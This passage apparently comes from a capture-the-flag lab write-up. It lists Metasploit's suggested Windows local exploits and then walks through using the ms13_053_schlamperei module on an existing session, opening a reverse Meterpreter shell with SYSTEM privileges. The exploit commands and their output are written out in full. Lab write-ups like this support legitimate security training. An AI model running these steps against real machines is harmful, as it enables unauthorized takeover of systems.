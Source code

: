 ```bash
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_004_tswbproxy                       Yes                      The service is running, but could not be validated.
 9   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 11  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 12  exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/ms16_075_reflection_juicy                Yes                      The target appears to be vulnerable.
 14  exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 15  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

A lot of potential exploits are returned, but some have comments that "could not be validated".

### privilege escalation via ms13-053

I found more reliable exploit : `exploit/windows/local/ms13_053_schlamperei`
Let me try using this module.

```bash
msf6 exploit(windows/local/ms13_053_schlamperei) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
msf6 exploit(windows/local/ms13_053_schlamperei) > set LPORT 9001
LPORT => 9001
msf6 exploit(windows/local/ms13_053_schlamperei) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms13_053_schlamperei) > check
[*] The target appears to be vulnerable.
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.14.15:9001 
[*] Launching notepad to host the exploit...
[+] Process 2476 launched.
[*] Reflectively injecting the exploit DLL into 2476...
[*] Injecting exploit into 2476...
[*] Found winlogon.exe with PID 436
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.15:9001 -> 10.10.10.5:49196) at 2025-01-12 08:14:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

It worked! And I got a `SYSTEM`'s shell!